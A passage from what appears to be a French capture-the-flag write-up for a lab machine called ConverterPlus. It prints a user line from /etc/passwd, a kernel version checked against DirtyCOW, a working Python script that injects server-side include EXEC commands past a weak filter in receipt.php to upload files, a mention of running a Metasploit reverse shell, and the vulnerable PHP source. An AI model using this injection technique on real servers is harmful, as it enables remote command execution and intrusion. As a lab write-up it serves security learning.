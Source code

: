 Dans le fichier */etc/passwd* on remarque un utilisateur *starfire*.  

```plain
starfire:x:1000:1000:admin,,,:/home/starfire:/bin/bash
```

Le kernel ne semble pas vulnérable à DirtyC0w :'(   

```plain
Linux ConverterPlus 4.10.0-28-generic #32~16.04.2-Ubuntu SMP Thu Jul 20 10:19:13 UTC 2017 i686 i686 i686 GNU/Linux
```

Pour les problèmes d'upload j'ai créé un script qui converti un fichier local en base64 et écrit sur le serveur ligne par ligne par *echo*. Il suffit après d'utiliser *base64 -d* pour récupérer le fichier uploadé.  

```python
import requests
import os
import sys

try:
    os.unlink("/tmp/temp64.txt")
except FileNotFoundError:
    pass

os.system("base64 '{}' > /tmp/temp64.txt".format(sys.argv[1]))

params = {"xxx": "", "feedback": '<pre><!--#EXEC cmd="rm out" --></pre>'}
response = requests.post("http://192.168.1.36/receipt.php", data=params)

with open("/tmp/temp64.txt") as fd:
    for line in fd:
        line = line.strip()
        if not line:
            break
        params = {"xxx": "", "feedback": '<pre><!--#EXEC cmd="echo {} >> out" --></pre>'.format(line)}
        response = requests.post("http://192.168.1.36/receipt.php", data=params)
```

Avec ça j'ai pu placer et exécuter une backdoor MSF (x86 reverse shell)  

Pour les curieux voici le fonctionnement de *receipt.php* :   

```php
<?php
$target = $_POST["xxx"];
$feedback = $_POST["feedback"];
$target = str_replace("<", "", $target);
$target = str_replace(">", "", $target);
$feedback = str_replace("exec", "", $feedback);
$feedback = str_replace("Exec", "", $feedback);
$feedback = str_replace("include", "", $feedback);
$feedback = str_replace("InClUdE", "", $feedback);
$fileopen = fopen("receipt.shtml", "w");
// --- snip ---
fwrite($fileopen, $content);
fclose($fileopen);
header("Location:receipt.shtml");

// Thank you, your feedback is very important to us.
?>
```
